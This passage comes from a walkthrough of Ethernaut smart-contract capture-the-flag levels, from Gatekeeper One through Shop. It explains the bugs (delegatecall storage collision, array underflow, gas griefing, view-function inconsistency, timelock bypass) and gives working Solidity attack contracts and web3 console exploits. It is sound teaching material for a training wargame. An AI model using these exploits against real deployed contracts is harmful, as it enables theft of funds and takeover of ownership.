`bytes16(data[2])` takes the **first 16 bytes** of the 32-byte value (Solidity truncates from the right when casting `bytes32 → bytes16`).

Step 1: Read Slot 5

```js
// Read storage slot 5 where data[2] lives
const data2 = await web3.eth.getStorageAt(contract.address, 5)
console.log(data2)
// e.g. "0xabcdef1234567890abcdef1234567890abcdef1234567890abcdef1234567890"
```

Step 2: Truncate to bytes16 (first 16 bytes = first 32 hex chars after 0x)

```js
// bytes32 → bytes16 means taking the FIRST 16 bytes
// In hex: "0x" + first 32 characters of the 64-char hex string
const key = data2.slice(0, 34) // "0x" + 32 hex chars = first 16 bytes
console.log(key)
```

Step 3: Unlock

```js
await contract.unlock(key)
```

Step 4: Verify

```js
await contract.locked() // should return false
```
# 13 - Gatekeeper One

Make it past the gatekeeper and register as an entrant to pass this level.
##### Things that might help:

- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [Units and Global Variables](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [External Function Calls](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
### Gate 1 - `msg.sender != tx.origin`

We've seen this before (Telephone level). Just use an intermediary contract. When your wallet calls the attack contract, which calls `enter()`:

- `tx.origin` = your wallet
- `msg.sender` = attack contract

They differ → gate passes.
### Gate 2 - `gasleft() % 8191 == 0`

At the **exact moment** this modifier runs, the remaining gas must be a perfect multiple of 8191.

You can't predict gas consumption exactly - EVM opcodes vary. So you **brute-force** it: try every possible gas offset from `8191 * someMultiplier` to `8191 * someMultiplier + 8191` until one works.
### Gate 3 

Three conditions on `bytes8 _gateKey`, when viewed as a `uint64`:

```c
Let k = uint64(_gateKey)

Condition 1: uint32(k) == uint16(k)
Condition 2: uint32(k) != k  (full 64 bits)
Condition 3: uint32(k) == uint16(uint160(tx.origin))
```

Working it out byte by byte (64-bit = 8 bytes):

```c
k = [B7][B6][B5][B4] [B3][B2][B1][B0]
         ↑uint32↑      ↑uint16↑
```

**Condition 3** tells us what `uint16(k)` must equal - the last 2 bytes of your wallet address.

**Condition 1** says `uint32(k) == uint16(k)` - meaning the upper 2 bytes of the lower 4 bytes must be `0x0000`.

So bytes 4–5 must be `0x0000`.

**Condition 2** says `uint32(k) != uint64(k)` - meaning the upper 4 bytes can't all be zero. We can just keep your wallet's upper bytes there.

Formula:

```c
key = (your_address as bytes8) & 0xFFFFFFFF0000FFFF
```

This zeros out bytes 4–5, satisfies conditions 1 & 3, and keeps the upper bytes non-zero for condition 2.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperOneAttack {

    function attack(address _target) public {
        // Construct key from tx.origin (your wallet address)
        // bytes8(uint64(uint160(tx.origin))) → take lower 8 bytes of address
        // mask 0xFFFFFFFF0000FFFF:
        //   - keeps upper 4 bytes (satisfies gate 3 part 2: uint64 != uint32)
        //   - zeros bytes 4-5    (satisfies gate 3 part 1: uint32 == uint16)
        //   - keeps lower 2 bytes (satisfies gate 3 part 3: == uint16(tx.origin))
        bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;

        // Brute-force the gas to satisfy gate 2: gasleft() % 8191 == 0
        // We try 500 offsets around a multiplier of 8191
        // i = gas offset, total gas = 8191*3 + i
        for (uint256 i = 0; i < 500; i++) {
            (bool success, ) = address(_target).call{gas: 8191 * 3 + i}(
                abi.encodeWithSignature("enter(bytes8)", key)
            );
            if (success) {
                break; // found the right gas offset, stop
            }
        }
    }
}
```

**1.** Deploy `GatekeeperOneAttack` on Remix (Injected Provider - MetaMask, Sepolia)

**2.** Call `attack` with your level's contract address → confirm in MetaMask

**3.** Verify:

```js
await contract.entrant() // should return your wallet address (tx.origin)
```
# 14 - Gatekeeper Two

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.
##### Things that might help:

- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [Solidity Assembly](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [Solidity cheatsheet](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
### Gate 1 - `msg.sender != tx.origin`

Identical to Gatekeeper One. Use an intermediary contract. 
## Gate 2 - `extcodesize(caller()) == 0`

`extcodesize(address)` returns the number of bytes of code at an address.

|Caller type|`extcodesize`|
|---|---|
|EOA (wallet)|`0`|
|Deployed contract|`> 0`|
|Contract **being constructed**|`0` ← the loophole|

During a contract's constructor execution, its bytecode **has not been written to the chain yet**. The EVM only stores the code after the constructor finishes. So during construction:

```c
extcodesize(address(this)) == 0   ← even though we're a contract!
```

```c
Deploy AttackContract
└── constructor() begins
    │   ← extcodesize is 0 HERE
    └── calls GatekeeperTwo.enter()
        └── gate 2 checks extcodesize → 0 
└── constructor finishes
└── bytecode now stored on-chain (too late to check)
```

So we put the entire attack inside the **constructor**. No separate `attack()` function needed.
## Gate 3 - XOR Inverse

The condition:

```c
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max
```

Simplified:

```c
A ^ key == 0xFFFFFFFFFFFFFFFF
```

`type(uint64).max` = `0xFFFFFFFFFFFFFFFF` = all 64 bits set to `1`

```
A bit    key bit    XOR result
  0         1           1  
  1         0           1  
```

For every bit of the result to be `1`, every bit of `key` must be the **opposite** of `A`. That means:

```c
key = ~A    (bitwise NOT of A)
```

Which is identical to:

```
key = A ^ 0xFFFFFFFFFFFFFFFF
```

Since `msg.sender` inside the call is `address(this)` (the attack contract), and we already know our own address during the constructor, we can compute `A` and derive `key` directly.

```bash
A ^ key = 0xFFFF...FFFF
      ↓ XOR both sides with A
key = A ^ 0xFFFF...FFFF
key = ~A
```

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwoAttack {

    constructor(address _target) {
        // compute A from our own address
        uint64 a = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));

        // key = bitwise NOT of A → A ^ (~A) = 0xFFFFFFFFFFFFFFFF 
        bytes8 key = bytes8(~a);

        // fire from constructor:
        // gate 1: msg.sender = this contract ≠ tx.origin 
        // gate 2: extcodesize(this) = 0 still 
        // gate 3: key derived correctly 
        _target.call(abi.encodeWithSignature("enter(bytes8)", key));
    }
}
```

Deploy `GatekeeperTwoAttack` on Remix with the level address as constructor arg. Attack will fire automatically once you deploy.

To verify:

```js
await contract.entrant()
```
# 15 - Naught Coin

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

  Things that might help

- The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
- The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase

```c 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

NaughtCoin gives you 1,000,000 ERC20 tokens but tries to prevent you from moving them for 10 years via a `lockTokens` modifier on the `transfer()` function. The goal is to drain your balance to 0 without waiting.

ERC20 is a **token standard** on Ethereum - a set of rules that every fungible token must follow so wallets, exchanges, and protocols can interact with them uniformly. Think of it like a contract interface agreement.

The standard defines these core functions:

```c
balanceOf(address)           → how many tokens someone holds
transfer(to, amount)         → send tokens directly
approve(spender, amount)     → authorize someone else to spend your tokens
transferFrom(from, to, amount) → spend tokens on someone's behalf
allowance(owner, spender)    → check how much a spender is approved for
```

**There are two separate ways to move tokens in ERC20**, not one.

Path 1 - Direct transfer:

```bash
You → call transfer(recipient, amount)
```

You move tokens yourself, directly.

Path 2 - Delegated transfer (approve + transferFrom):

```bash
Step 1: You → call approve(spender, amount)
Step 2: Spender → call transferFrom(you, recipient, amount)
```

You authorize someone else (or yourself from another context) to pull tokens from your account. This is how DEXes, lending protocols, and staking contracts work - you approve them once, then they pull when needed.

Consider using Uniswap. You can't "push" tokens into a smart contract and have it know what to do - the contract needs to pull them during a transaction. So the flow is:

```bash
1. You approve(UniswapRouter, 1000 USDC)
2. You call swap() on Uniswap
3. Inside swap(), it calls transferFrom(you, pool, 1000 USDC)
```

This pattern is everywhere in DeFi. It's a foundational ERC20 mechanic.

In our case, NaughtCoin inherits from OpenZeppelin's `ERC20.sol`:

```c
contract NaughtCoin is ERC20 {
```

This gives NaughtCoin **all** ERC20 functions for free. The developer then overrides `transfer()` to add the timelock:

```c
function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
    super.transfer(_to, _value);
}
```

The `override` keyword replaces the parent's `transfer()` with this new version. But **only `transfer()` was overridden.** `transferFrom()`, `approve()`, and everything else is still the raw, unmodified OpenZeppelin implementation - no timelock, no restrictions.

```c
modifier lockTokens() {
    if (msg.sender == player) {
        require(block.timestamp > timeLock); // blocks for 10 years
        _;
    } else {
        _;
    }
}
```

This only runs when applied. It was applied to `transfer()`. It was **never applied** to `transferFrom()`. So the timelock only blocks one of the two transfer paths.

```
transfer()      → overridden → lockTokens applied → BLOCKED for 10 years
transferFrom()  → inherited  → no modifier        → OPEN right now
```

Since `transferFrom()` is inherited directly from OpenZeppelin ERC20 with no customization, calling it bypasses the timelock entirely. You can approve yourself as a spender and drain your own balance immediately.

Step 1: Check your token balance

```js
const balance = await contract.balanceOf(player)
console.log(balance.toString())
// 1000000000000000000000000 (1M tokens with 18 decimals)
```

Step 2: Approve yourself to spend your entire balance

```js
await contract.approve(player, balance)
```

This sets `allowance[player][player] = balance`. You are now authorized to call `transferFrom` on your own tokens.

Step 3: Verify the allowance was set

```c
(await contract.allowance(player, player)).toString()
// should match your balance
```

Step 4: Call `transferFrom` to move all tokens - bypassing the timelock

```js
await contract.transferFrom(player, contract.address, balance)
```

You can send to any address - another wallet, the contract itself, a burn address. The destination doesn't matter for completing the level.

Step 5: Verify your balance is zero

```js
(await contract.balanceOf(player)).toString()
// "0"
```
# 16 - Preservation

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

The `Preservation` contract:

1. Stores addresses of two library contracts (`timeZone1Library`, `timeZone2Library`)
2. Has an `owner` variable and a `storedTime` variable
3. Provides `setFirstTime()` and `setSecondTime()` functions that use `delegatecall` to invoke `setTime(uint256)` on the libraries

The `LibraryContract` is simple - it just has a `storedTime` variable and a `setTime()` function that writes to it.

Look at the storage layout of both contracts:

**Preservation storage slots:**

```c
slot 0 → timeZone1Library (address)
slot 1 → timeZone2Library (address)
slot 2 → owner (address)
slot 3 → storedTime (uint256)
```

**LibraryContract storage slots:**

```c
slot 0 → storedTime (uint256)
```

When `LibraryContract.setTime(uint256 _time)` executes via `delegatecall`:

- It writes `_time` to **slot 0** of the calling contract's storage
- But in `Preservation`, **slot 0 is `timeZone1Library`**, not `storedTime`!

```c
function setFirstTime(uint256 _timeStamp) public {
    timeZone1Library.delegatecall(
        abi.encodePacked(setTimeSignature, _timeStamp)
    );
}
```

When `LibraryContract.setTime()` runs via `delegatecall`, it writes to:

```c
slot 0
```

But in **Preservation**, slot 0 is:

```c
timeZone1Library
```

That means calling `setFirstTime()` overwrites the library address itself.

If we deploy a **malicious library contract** with a `setTime(uint256)` function that writes to **slot 2**, then when `Preservation` delegatecalls it:

- The malicious code runs in Preservation's storage context
- Writing to slot 2 overwrites the `owner` variable
- We can set `owner = msg.sender` (our attack contract) or directly to our wallet address

Deploy this in Remix:

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract PreservationAttack {

    // must match Preservation's layout exactly
    address public timeZone1Library; // slot 0
    address public timeZone2Library; // slot 1
    address public owner;            // slot 2

    function setTime(uint256) public {
        // overwrite slot 2 (owner)
        owner = msg.sender;
    }
}
```

In console, Overwrite library pointer:

```js
await contract.setFirstTime("ATTACK_CONTRACT_ADDRESS")
```

Trigger delegatecall into malicious contract:

```js
await contract.setFirstTime(0)
```

Now `owner = msg.sender` inside delegatecall.

Since you called from your wallet:

```
owner = your wallet
```

```c
await contract.owner()
```

To prevent this attack:

1. **Use `staticcall` for read-only library calls** when possible
2. **Ensure library contracts have no state variables** that could collide (use `pure`/`view` functions)
3. **Use OpenZeppelin's `Address` library** with proper checks
4. **Avoid storing library addresses in mutable state** if they're only used for delegatecall
5. **Implement access controls** on functions that trigger delegatecall.
# 17 - Recovery

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

When a contract creates another contract using:

```bash
new SimpleToken(...)
```

The new contract’s address is **deterministically computed** from:

```bash
keccak256( RLP(sender_address, sender_nonce) )
```

Where:

- `sender_address` = address of the contract doing the creation (Recovery)
- `sender_nonce` = how many contracts that address has created

For contracts:

- The nonce starts at **1**
- The first contract created uses nonce = 1

In this level:

- Only one token was created
- So nonce = 1

So the lost contract address is:

```
address = keccak256( RLP(Recovery_address, 1) )[last 20 bytes]
```

This means we can compute it off-chain. Ethereum uses **RLP (Recursive Length Prefix)** encoding internally when computing addresses.

For:

```
(sender_address, nonce)
```

When nonce = 1, the RLP encoding is:

```bash
0xd6 0x94 <20-byte address> 0x01
```

So the address becomes:

```bash
keccak256( 0xd6 0x94 <Recovery_address> 0x01 )
```

Then take the **last 20 bytes**.

```js
// Get recovery contract address
const recoveryAddress = contract.address

// Compute lost token address
const lostAddress = web3.utils.toChecksumAddress(
  "0x" +
  web3.utils.keccak256(
    "0xd694" +
    recoveryAddress.slice(2) +
    "01"
  ).slice(-40)
)

lostAddress
```

Now that we have `lostAddress`, we call this to destroy it:

```js
const abi = [{
  "inputs": [{"internalType":"address payable","name":"_to","type":"address"}],
  "name":"destroy",
  "outputs":[],
  "stateMutability":"nonpayable",
  "type":"function"
}]

const lost = new web3.eth.Contract(abi, lostAddress)

await lost.methods.destroy(player).send({ from: player })
```

This will:

`selfdestruct(player)`

And send the `0.001 ETH` to your wallet.
# 18 - MagicNumber

To solve this level, you only need to provide the Ethernaut with a `Solver`, a contract that responds to `whatIsTheMeaningOfLife()` with the right 32 byte number.

Easy right? Well... there's a catch.

The solver's code needs to be really tiny. Really reaaaaaallly tiny. Like freakin' really really itty-bitty tiny: 10 bytes at most.

Hint: Perhaps its time to leave the comfort of the Solidity compiler momentarily, and build this one by hand O_o. That's right: Raw EVM bytecode.

Good luck!

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MagicNum {
    address public solver;

    constructor() {}

    function setSolver(address _solver) public {
        solver = _solver;
    }

    /*
    ____________/\\\_______/\\\\\\\\\_____
     __________/\\\\\_____/\\\///////\\\___
      ________/\\\/\\\____\///______\//\\\__
       ______/\\\/\/\\\______________/\\\/___
        ____/\\\/__\/\\\___________/\\\//_____
         __/\\\\\\\\\\\\\\\\_____/\\\//________
          _\///////////\\\//____/\\\/___________
           ___________\/\\\_____/\\\\\\\\\\\\\\\_
            ___________\///_____\///////////////__
    */
}
```

Every deployed contract has two parts:
### Creation Code

Runs once during deployment.
Its job is to **return the runtime code**.
### Runtime Code

Lives on-chain permanently.
This is what executes when someone calls the contract.

The 10-byte limit applies to:

```c
RUNTIME CODE ONLY
```

Creation code can be longer.

It must respond to:

```
whatIsTheMeaningOfLife()
```

But here’s the trick:

The level does **not check the function selector**.

It simply performs a call and checks:

```c
Does the call return 42 as a 32-byte value?
```

So we don’t need a real function.

We just need:

```c
Return 42 no matter what.
```

To return 42:

We must:

1. Put `42` in memory
2. Return 32 bytes

Minimal opcode sequence:

|Opcode|Meaning|
|---|---|
|`PUSH1 0x2a`|push 42|
|`PUSH1 0x00`|memory position|
|`MSTORE`|store 42 at memory[0]|
|`PUSH1 0x20`|length = 32 bytes|
|`PUSH1 0x00`|offset = 0|
|`RETURN`|return memory|

```c
60 2a     // PUSH1 0x2a
60 00     // PUSH1 0x00
52        // MSTORE
60 20     // PUSH1 0x20
60 00     // PUSH1 0x00
f3        // RETURN
```

Final runtime bytecode:

```bash
0x602a60005260206000f3
```

```bash
60 2a (2)
60 00 (2)
52     (1)
60 20 (2)
60 00 (2)
f3     (1)
--------------
= 10 bytes
```

The EVM does not deploy runtime code directly.
We must write creation code that:

```bash
1. Places runtime bytecode in memory
2. Returns it
```

Use this known working full deployable bytecode:

```bash
0x600a600c600039600a6000f3602a60005260206000f3
```

First half (creation):

`600a600c600039600a6000f3`

Second half (runtime):

`602a60005260206000f3`

```js
await web3.eth.sendTransaction({
  from: player,
  data: "0x600a600c600039600a6000f3602a60005260206000f3"
})
```

We get:

```
Console was cleared. main.a339a761.chunk.js:1:25306
MagicNumber main.a339a761.chunk.js:1:18435687
Type help() for a listing of custom web3 addons main.a339a761.chunk.js:1:18437051
=> Level address
0x2132C7bc11De7A90B87375f282d36100a29f97a9 main.a339a761.chunk.js:1:18434997
await web3.eth.sendTransaction({
  from: player,
  data: "0x600a600c600039600a6000f3602a60005260206000f3"
})
Object { blockHash: "0xc4cbda7e803b2239f8222c5dd5224ccbc5b2110143918338ffcdd70c5a61b780", blockNumber: 10373613, contractAddress: "0x61153a3bF659aE1F011c80c0C09c21E5747E13e4", cumulativeGasUsed: 55330, effectiveGasPrice: 2500000010, from: "0x2009315ad9f3dbcd4041d256cb16d77d90ff95b9", gasUsed: 55330, logs: [], logsBloom: "0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000", status: true, … }
```

Verify it returns 42 now:

```js
await web3.eth.call({
  to: "0x61153a3bF659aE1F011c80c0C09c21E5747E13e4"
})
```

```
await web3.eth.call({ to: "0x61153a3bF659aE1F011c80c0C09c21E5747E13e4" })

"0x000000000000000000000000000000000000000000000000000000000000002a"
```

Nice `2a` is `42`.

Now tell the level contract to use it.

```js
await contract.setSolver("0x61153a3bF659aE1F011c80c0C09c21E5747E13e4")
```

Submit.
# 19 - Alien Codex

You've uncovered an Alien contract. Claim ownership to complete the level.

  Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

This level is about:

1. **Storage layout**
2. **Dynamic array storage math**
3. **Underflow (Solidity 0.5 - no SafeMath on arrays)**

The vulnerability is here:

```c
function retract() public contacted {
    codex.length--;
}
```

In Solidity `^0.5.0`, this can underflow.

AlienCodex inherits from `Ownable`.

From `Ownable-05.sol`, storage is:

```c
address public owner;
```

So storage layout becomes:

```c
slot 0 → owner (20 bytes) + contact (1 byte packed)
slot 1 → codex.length
slot keccak256(1) → codex[0]
slot keccak256(1) + 1 → codex[1]
...
```

- `owner` and `contact` share **slot 0** (packing)
- `codex.length` is at **slot 1**
- The array data starts at:

```c
keccak256(1)
```

Initially: `codex.length = 0`

When we call:

```c
retract()
```

It does:

`codex.length--`

Since it's already 0:

`0 - 1 → 2^256 - 1`

Now the array length becomes:

`MAX_UINT256`

Meaning:

The array now covers ALL storage slots.

Array element location formula:

```c
codex[i] is stored at:
keccak256(slot_of_array) + i
```

Here:

```c
slot_of_array = 1
```

So:

```c
codex[i] → keccak256(1) + i
```

If we pick `i` cleverly, we can make:

```c
keccak256(1) + i = 0
```

And 0 slot contains owner. If we can write to `codex[i]` that maps to slot 0,
we overwrite the owner.

We want:

```c
keccak256(1) + i ≡ 0 (mod 2^256)
```

So:

```c
i = 2^256 - keccak256(1)
```

In JS console. Enable the contract:

```js
await contract.makeContact()
```

Now underflow the array:

```js
await contract.retract()
```

Now `codex.length = 2^256 - 1`

Compute index that maps to slot 0:

```js
let slot = web3.utils.keccak256(
  web3.eth.abi.encodeParameters(['uint256'], ['1'])
)

let index = web3.utils.toBN('2').pow(web3.utils.toBN('256'))
  .sub(web3.utils.toBN(slot))
  .toString()
```

We need to write your address as `bytes32`.

```js
await contract.revise(
  index,
  web3.utils.padLeft(player, 64)
)
```

This writes to slot 0 i.e owner.

```js
await contract.owner()
```
# 20 - Denial

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Look carefully at `withdraw()`:

```c
function withdraw() public {
    uint256 amountToSend = address(this).balance / 100;

    partner.call{value: amountToSend}("");

    payable(owner).transfer(amountToSend);

    timeLastWithdrawn = block.timestamp;
    withdrawPartnerBalances[partner] += amountToSend;
}
```

Critical line:

```c
partner.call{value: amountToSend}("");
```

- Uses **low-level call**
- Forwards **ALL remaining gas**
- Does NOT limit gas
- Does NOT check return value

When `withdraw()` is called:

1. It sends ETH to `partner`
2. That executes partner’s `receive()` or `fallback()`
3. That partner gets **all available gas**

If partner:

- Consumes ALL gas
- Or enters infinite loop
- Or reverts in a specific way

Then execution never reaches:

```c
payable(owner).transfer(amountToSend);
```

And the transaction fails.

We:

1. Deploy a malicious contract
2. Set it as withdraw partner
3. Make its fallback consume all gas

When owner calls `withdraw()`:

- Gas gets drained
- `transfer()` never executes
- Tx fails
- Owner cannot withdraw

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    fallback() external payable {
        while(true) {}
    }
}
```

That infinite loop:

```c
while(true) {}
```

Consumes all gas.

Because `.call()` forwards all gas.

After deploying.

```c
await contract.setWithdrawPartner("0xATTACKADDRESS")
```

Now Submit.
# 21 - Shop

Сan you get the item from the shop for less than the price asked?
##### Things that might help:

- `Shop` expects to be used from a `Buyer`
- Understanding restrictions of view functions

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IBuyer {
  function price() external view returns (uint256);
}

contract Shop {
  uint256 public price = 100;
  bool public isSold;

  function buy() public {
    IBuyer _buyer = IBuyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

```c
function buy() public {
    IBuyer _buyer = IBuyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

Notice something subtle:

```c
_buyer.price()
```

is called **twice**.

And `price()` is:

```c
function price() external view returns (uint256);
```

It’s marked `view`  but that does **NOT** mean:

- It returns the same value every time
- It cannot read state
- It cannot react to changes in `Shop`

It only means:

-  It cannot modify state.

It can absolutely return different values depending on conditions.

Flow:

1. First `_buyer.price()` is used in the `if` check
2. `isSold` becomes true
3. `_buyer.price()` is called again
4. That value becomes the final `price`

So if we can:

- Return **100** the first time
- Return **0** the second time

We win.

We build a contract that:

- Implements `IBuyer`
- When `isSold == false` → return 100
- When `isSold == true` → return 0

Inside our `price()` function, we can read:

`Shop(msg.sender).isSold()`

Because when `Shop.buy()` calls us:

`msg.sender == Shop`

So we can inspect the Shop's state.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract RawBuyer {

    address public target;

    constructor(address _shop) {
        target = _shop;
    }

    // this will be called by Shop
    function price() external view returns (uint256) {
        // Use a low-level staticcall to check Shop's isSold state
        (bool success, bytes memory data) = target.staticcall(
            abi.encodeWithSignature("isSold()")
        );
        require(success, "Failed to read isSold");

        bool sold = abi.decode(data, (bool));

        if (sold) {
            return 0;   // second call → buy cheap
        } else {
            return 100; // first call → meets requirement
        }
    }

    // attack helper
    function attack() external {
        // raw call to buy()
        (bool success, ) = target.call(abi.encodeWithSignature("buy()"));
        require(success, "Buy failed");
    }
}
```

Deploy above in Remix and use Instance address as shop address. Then call attack.

```js
await contract.price()
// Should return 0
```

```js
await contract.isSold()
// Should return true
```

Submit.
# 22 - Dex

